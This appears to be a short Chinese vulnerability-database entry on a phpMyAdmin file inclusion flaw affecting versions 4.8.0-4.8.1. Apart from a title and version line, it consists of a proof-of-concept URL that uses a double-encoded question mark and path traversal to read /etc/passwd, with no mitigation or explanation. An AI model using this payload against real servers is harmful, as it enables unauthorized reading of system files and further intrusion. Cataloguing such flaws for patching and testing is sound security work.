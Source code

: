 ```yaml
---
title: 'phpMyAdmin文件包含漏洞'
date: Tue, 22 Sep 2020 16:59:02 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

phpMyAdmin 4.8.0-4.8.1

### 漏洞POC

```
http://**********/index?target=db_sql.php%253f/../../../../../../../../etc/passwd 
```